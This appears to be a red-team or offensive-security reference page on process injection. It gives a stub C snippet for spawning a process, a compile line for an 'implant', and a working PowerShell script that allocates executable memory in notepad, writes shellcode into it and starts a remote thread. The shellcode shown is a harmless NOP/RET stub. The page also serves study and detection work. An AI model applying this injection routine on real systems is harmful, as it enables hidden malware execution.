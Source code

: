 # Inject Spawned Process

## CreateProcess

> [!TIP]
> When you want to spawn a process then inject the implant. Implement conditions to discover uncommon programs that are installed in the computer.

### C

```c
#include <windows.h>
#include <processthreadsapi.h>

#pragma comment(lib, "kernel32.lib")

CreateProcess()

DWORD PID = pInfo.dwProcessId;
```

```
CreateProcessA()
CreateProcessW()
```

```
$ x86_64-w64-mingw32-gcc -l kernel32 -o implant.exe implant.c
```

## PowerShell

```powershell
# Start a notepad process. This will be our injection target
$NotepadProcess = Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = 'notepad.exe' }
 
# Compile and load Windows API functions that will be needed to inject into another process
Add-Type -TypeDefinition @'
using System;
using System.Runtime.InteropServices;
 
namespace Win32 {
	public class NativeMethods {
        [DllImport("kernel32.dll", SetLastError = true)] public static extern IntPtr OpenProcess(int processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true)] public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, int flAllocationType, int flProtect);
        [DllImport("kernel32.dll", SetLastError = true)] public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, ref uint lpNumberOfBytesWritten);
        [DllImport("kernel32.dll", SetLastError = true)] public static extern bool CloseHandle(IntPtr hObject);
        [DllImport("ntdll.dll")] public static extern int RtlCreateUserThread(IntPtr ProcessHandle, IntPtr SecurityDescriptor, bool CreateSuspended, IntPtr StackZeroBits, IntPtr StackReserved, IntPtr StackCommit, IntPtr StartAddress, IntPtr StartParameter, ref IntPtr ThreadHandle, ref IntPtr ClientID);
	}
}
'@
 
# Benign shellcode to inject into notepad - 0x90 (NOP), 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
[Byte[]] $Code = @(0x90, 0x90, 0x90, 0xC3)
 
# Obtain a handle to the open notepad process
$TargetProcessHandle = [Win32.NativeMethods]::OpenProcess(0x001FFFFF, $False, $NotepadProcess.ProcessId)
 
# Allocate read/write/execute memory in the notepad process for the shellcode
$TargetProcessBaseAddress = [Win32.NativeMethods]::VirtualAllocEx($TargetProcessHandle, [IntPtr]::Zero, $Code.Length, 0x3000, 0x40)
 
# Write the shellcode buffer to the notepad process​
$BytesWritten = 0
$null = [Win32.NativeMethods]::WriteProcessMemory($TargetProcessHandle, $TargetProcessBaseAddress, $Code, $Code.Length, [Ref] $BytesWritten)
 
# Execute the shellcode in the notepad process
[IntPtr] $RemoteThreadHandle = [IntPtr]::Zero
[IntPtr] $CliendId = [IntPtr]::Zero
$null = [Win32.NativeMethods]::RtlCreateUserThread($TargetProcessHandle, [IntPtr]::Zero, $False, [IntPtr]::Zero, [IntPtr]::Zero, [IntPtr]::Zero, $TargetProcessBaseAddress, [IntPtr]::Zero, [Ref] $RemoteThreadHandle, [Ref] $CliendId)
 
# Cleanup
$null = [Win32.NativeMethods]::CloseHandle($RemoteThreadHandle)
$null = [Win32.NativeMethods]::CloseHandle($TargetProcessHandle)
Stop-Process -Id $NotepadProcess.ProcessId 
```

---
## References

### Tenouk

- [Tenouk: Processes and Threads - C Run-Time - Part 1](https://www.tenouk.com/ModuleR.html)

- [Tenouk: Processes and Threads - C Run-Time - Part 2](https://www.tenouk.com/ModuleR1.html)

- [Tenouk: Processes and Threads - C Run-Time - Part 3](https://www.tenouk.com/ModuleR2.html)

- [Tenouk: Processes and Threads - WinAPIs - Part 6](https://www.tenouk.com/ModuleU.html)

- [Tenouk: Processes and Threads - WinAPIs - Part 8](https://www.tenouk.com/ModuleU2.html)

- [Tenouk: Processes and Threads - WinAPIs - Part 9](https://www.tenouk.com/ModuleU3.html)

- [Tenouk: Processes and Threads - WinAPIs - Part 10](https://www.tenouk.com/ModuleU4.html)

- [Tenouk: Windows Process and Thread References 2](https://www.tenouk.com/crstufunction1.html)

- [Tenouk: Windows Services & Process - A Supplementary Note](https://www.tenouk.com/cddeefunction1.html)

### Github

- [Chvancooten: Process Hollowing](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Hollowing)

### Red Canary

- [Red Canary: Process Injection](https://redcanary.com/threat-detection-report/techniques/process-injection/)